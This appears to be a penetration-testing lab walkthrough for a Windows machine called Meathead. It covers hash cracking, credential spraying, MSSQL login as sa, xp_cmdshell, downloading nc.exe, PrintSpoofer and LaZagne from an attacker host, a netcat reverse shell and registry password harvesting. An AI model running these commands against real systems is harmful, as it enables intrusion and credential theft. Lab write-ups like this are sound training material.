 ### FTP
```
cat palindromes.txt | sed -e 's/\"//g' -e 's/, /\n/g'
```

no luck above just crack it then.

```
hashcat -m 13000 --force -a 0 rar.hash /usr/share/wordlists/rockyou.txt
```

letmeinplease

### Extract the rar file then
sa
EjectFrailtyThorn425

### Ports scan since autorecon failed
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 192.168.243.70
```

PORT     STATE SERVICE        REASON
80/tcp   open  http           syn-ack
135/tcp  open  msrpc          syn-ack
139/tcp  open  netbios-ssn    syn-ack
445/tcp  open  microsoft-ds   syn-ack
1221/tcp open  sweetware-apps syn-ack
1435/tcp open  ibm-cics       syn-ack <- mssql
3389/tcp open  ms-wbt-server  syn-ack
5985/tcp open  wsman          syn-ack

### Mysql it
```
mysql -u sa -p'EjectFrailtyThorn425' -h $IP -P 1435
```

for u in $(cat names.txt); do mysql -u $u -p'EjectFrailtyThorn425' -h $IP -P 1435; done

for u in $(cat names.txt); do smbmap -u $u -p 'EjectFrailtyThorn425' -H $IP; done

crackmapexec smb $IP -u names.txt -p EjectFrailtyThorn425

crackmapexec winrm $IP -u names.txt -p EjectFrailtyThorn425

### Brute force it as mysql failed to conncect
```
crackmapexec winrm $IP -d Meathead -u -p EjectFrailtyThorn425
```

### ...LOL... Actually MSSQL
##### sqsh is working too.
❯ sqsh -S $IP:1435 -U sa -P EjectFrailtyThorn425
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 

##### BUT mssqlclient is better!
```bash
❯ /usr/bin/impacket-mssqlclient sa@$IP -port 1435 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(MEATHEAD\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
                                                                                                                                                                                            
❯ /usr/bin/impacket-mssqlclient sa@$IP -port 1435
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MEATHEAD\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MEATHEAD\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> enable_xp_cmdshell
```

certutil failed. should go with iwr or smbserver
```
SQL> xp_cmdshell certutil -urlcache -f http://192.168.49.243/nc.exe c:\users\Public\nc.exe
[-] ERROR(MEATHEAD\SQLEXPRESS): Line 1: An error occurred during the execution of xp_cmdshell. A call to 'CreateProcess' failed with error code: '5'.
```

### Get foothold and root
```
xp_cmdshell c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest "http://192.168.49.243/nc.exe" -OutFile "C:\Users\Public\Downloads\alvin.exe"

xp_cmdshell c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest "http://192.168.49.243/PrintSpoofer64.exe" -OutFile "C:\Users\Public\Downloads\PrintSpoofer64.exe"

xp_cmdshell C:\Users\Public\Downloads\PrintSpoofer64.exe -c "C:\Users\Public\Downloads\alvin.exe 192.168.49.243 1435 -e cmd"
```

### Intened ways
##### Jane -> Admin
```
xp_cmdshell C:\Users\Public\Downloads\alvin.exe -e cmd 192.168.49.243 80
```

certutil -urlcache -f http://192.168.49.243:8080/lazagne.exe C:\Users\Public\lazagne.exe
certutil -urlcache -f http://192.168.49.243:8080/lazagne.exe C:\Users\Public\Downloads\lazagne.exe

nope, and IEX is for string. So go with IWR

```
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.243:8080/lazagne.exe');
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.243:5985/lazagne.exe');
```

```
powershell IWR http://192.168.49.243:5985/lazagne.exe -OutFile alvinLZG.exe <- Defender deleted it, so does some payloads generated by msf

C:\Users\Public\Downloads\lazagne.exe
```

##### Try SessionGopher
powershell IWR http://192.168.49.243:5985/SessionGopher.ps1 -OutFile alvin.ps1
But nothing
```
PS C:\Users\Public\Downloads> Import-Module .\alvin.ps1
Import-Module .\alvin.ps1
PS C:\Users\Public\Downloads> Invoke-SessionGopher -Target Meathead
Invoke-SessionGopher -Target Meathead

          o_       
         /  ".   SessionGopher
       ,"  _-"      
     ,"   m m         
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
  
[+] Digging on Meathead...
PS C:\Users\Public\Downloads> dir
```

##### Either winpeas or mannaully to get credentials
search the registry fo key names and passwords
```
reg query HKLM /f pass /t REG_SZ /s
```

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control
    CurrentPass    REG_SZ    TwilightAirmailMuck234


### 3389 to Jane
Verify the version of Plantronics and exploit it with [47845](https://www.exploit-db.com/exploits/47845)

View -> Details -> check the box 'Hidden items'

jane|advertise|C:\Windows\System32\cmd.exe

